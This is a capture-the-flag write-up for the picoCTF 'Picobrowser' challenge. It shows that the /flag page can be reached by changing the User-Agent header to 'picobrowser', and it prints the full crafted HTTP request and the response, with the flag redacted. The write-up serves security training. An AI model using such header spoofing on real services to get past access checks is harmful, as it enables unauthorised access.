


# Picobrowser

### Challenge Description:



### Exploitation

Launching the instance, we can see a button to call the flag. When pressed, it redirects to `/flag` and shows an error. 



Had the challenge not reflected the user agent, I probably would have been stuck. But, this is a freebie, and it was obvious to change my user-agent to `picobrowser`.  This can be changed in `burpsuite` or `OWASP Zap`. 

```bash
GET /flag HTTP/1.1
Host: fickle-tempest.picoctf.net:50691
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Referer: http://fickle-tempest.picoctf.net:50691/
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Sending this request with the user agent modified gives the flag. 

```html
<div class="jumbotron">
	<p class="lead"> </p>
	<p style="text-align:center; font-size:30px;">
	<b>Flag</b>: <code>REDACTED</code> 
	</p>
	<!-- <p><a class="btn btn-lg btn-success" href="admin" role="button">Click here for the flag!</a> -->
	<!-- </p> -->
</div>
```

Not a medium challenge in my opinion, especially with the reflection of our user agent. But then again, showing verbose error messages is a common thing in CTFs.
